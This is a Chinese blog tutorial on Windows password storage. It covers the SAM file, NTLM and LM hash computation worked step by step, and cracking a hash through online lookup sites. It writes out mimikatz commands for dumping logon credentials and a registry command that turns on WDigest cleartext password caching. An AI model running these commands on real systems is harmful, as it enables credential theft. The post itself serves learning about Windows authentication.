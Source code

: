 ```yaml
---
layout: post  
title: H系列 - Windows系统的账号密码
date: 2022-10-11  
tags:  H系列
---
```

### 你还拥有多少，你还在乎多少。

+ 系统  -- windows 10；

+ Windows登录流程  
![](/images/posts/H-windows/3.png){:width="80%"} 
  
+ 账号密码文件的存储位置  -- C:\Windows\System32\config\SAM（存储本地所有用户的凭证信息）；    
![](/images/posts/H-windows/1.png){:width="80%"}   

+ 通过使用 mimikatz.exe 工具可以读取SAM文件；
  
+ SAM文件部分内容样例；  
```
RID : 000001f4
User :Administrator
Hash NTLM : 570a9a65db8fba761c1008a51d4c95ab
```

+ 百度搜索MD5解密，找个解密网站还原密码明文；
![](/images/posts/H-windows/2.png){:width="80%"} 

+ NTLM-HASH 介绍  

```  
NTLM（Windows NT Lan Manager）哈希是一种用于进行密码验证的加密散列函数，通常在Windows操作系统中使用。它用于在网络中验证用户的身份，并且在早期版本的Windows中广泛使用，但在现代环境中逐渐被更强大和安全性更高的哈希算法取代，如NTLMv2和Kerberos。

NTLM哈希的工作原理如下：

密码哈希化：当用户设置密码时，操作系统将密码转换为一个固定长度的哈希值，即NTLM哈希。这个哈希值是用户密码的散列，无法逆向还原为原始密码。

挑战-响应协议：在进行身份验证时，服务器将生成一个随机的挑战（challenge），并将其发送给客户端。客户端使用其存储的NTLM哈希值对挑战进行哈希化，并将结果发送回服务器。

服务器验证：服务器收到客户端发送的哈希值，使用存储在服务器上的用户的NTLM哈希值进行同样的哈希运算，然后比较两个哈希值是否匹配。如果匹配，则用户被验证成功。

需要注意的是，NTLM哈希算法在安全性方面存在一些问题。它容易受到彩虹表攻击（通过预先计算可能的哈希值并与数据库中的哈希值进行匹配），并且相对较容易破解。由于这些安全隐患，现代网络安全标准更倾向于使用更安全的哈希算法，如SHA-256或SHA-512，并使用更复杂的身份验证机制，如Kerberos。

总之，NTLM哈希是一种早期的密码散列算法，虽然曾经在Windows系统中广泛使用，但现在已被更安全的方法所取代。
```

+ NTLM-HASH 加密原理  

```
1，明文密码：Admin@123
2，将明文转为十六进制格式：41646D696E40313233
3，将十六进制转为Unicode格式（每位后面加两个0）：410064006D0069006E004000310032003300
4，将Unicode字符串进行MD4加密：570a9a65db8fba761c1008a51d4c95ab
```

+ 通过使用 mimikatz.exe 工具可以读取内存数据，下图为win7截图，win10看不到password明文密码；  

```
mimikatz.exe
privilege::debug
sekurlsa::logonPasswords
```
![](/images/posts/H-windows/4.png){:width="80%"}   

+  LM-HASH 介绍 
![](/images/posts/H-windows/5.png){:width="80%"}  

+ LM-HASH 加密原理  

```
1，明文密码：Admin@123
2，将明文转为大写：ADMIN@123
3，转为十六进制格式：41444D494E40313233
4，不足14字节(28位)用0补全：41444D494E403132330000000000
5，分两组  
a组:41444D494E4031
b组:32330000000000
6，将每组的十六进制转为二进制
a组:01000001010001000100110101001001010011100100000000110001
b组:00110010001100110000000000000000000000000000000000000000
7，每七个后面加一个0
a组:01000000 10100010 00010010 10101000 10010100 01110010 00000000 01100010
b组:00110010 00011000 11000000 00000000 00000000 00000000 00000000 00000000
a组:0100000010100010000100101010100010010100011100100000000001100010
b组:0011001000011000110000000000000000000000000000000000000000000000
8，再转为十六进制
a组:40A212A894720062
b组:3218C00000000000
9，做DES加密，
使用固定明文 4B47532140232425 （KGS!@#$% 的十六进制数据）对两组数据进行DES加密
a组:6F08D7B306B1DAD4
b组:B75E0C8D76954A50
拼接即得LM-HASH：6F08D7B306B1DAD4B75E0C8D76954A50

```
![](/images/posts/H-windows/6.png){:width="80%"}  
<br/>
![](/images/posts/H-windows/7.png){:width="80%"}  

+ win10 如何查看内存明文密码？在cmd（管理员运行 C:\Windows\System32\cmd.exe）中修改注册表信息，重启再抓取即可。 

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
<br/>
![](/images/posts/H-windows/8.png){:width="80%"}  



<br/>
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
转载请注明：[劉清揚的博客](http://yuqianglianshou.com) » [ H系列 - Windows系统的账号密码 ](http://yuqianglianshou.com/2022/10/H系列-Windows系统的账号密码/)  
<br/>